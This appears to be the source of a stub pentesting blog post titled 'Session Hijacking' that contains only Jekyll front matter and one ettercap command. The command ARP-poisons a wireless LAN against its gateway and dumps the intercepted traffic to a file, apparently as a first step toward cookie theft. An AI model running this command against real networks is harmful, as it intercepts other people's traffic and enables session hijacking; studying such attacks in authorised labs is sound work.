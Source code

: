 ```yaml
---
layout: post
title: Session Hijacking
categories: [Pentesting]
tags: [Kali, Linux]
description: Coockie Hijack
fullview: false
comments: true
---
```


{% highlight yaml %}
$ettercap -T -w testdump -i wlan0 -M ARP /GATEWAY/ //
{% endhighlight %}
